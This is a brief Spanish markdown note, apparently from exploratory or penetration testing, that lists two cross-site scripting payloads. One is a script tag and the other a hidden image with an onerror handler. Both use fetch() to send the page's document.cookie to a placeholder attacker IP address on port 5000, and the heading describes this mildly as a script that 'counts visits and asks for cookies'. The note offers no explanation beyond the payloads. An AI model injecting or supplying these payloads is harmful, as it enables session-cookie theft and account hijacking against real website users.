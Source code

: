 # Notas del proceso de pruebas exploratorias

## Un script que cuenta visitas y pregunta cookies

### Opción 1
```html
<script>
    fetch("http://xxx.xxx.xxxx.xxxx:5000/?cookie="+document.cookie);
</script>
```

### Opción 2
```html
<img style="display:none" src=a onerror=fetch("http://xxx.xxx.xxxx.xxxx:5000/?cookie="+document.cookie)>
```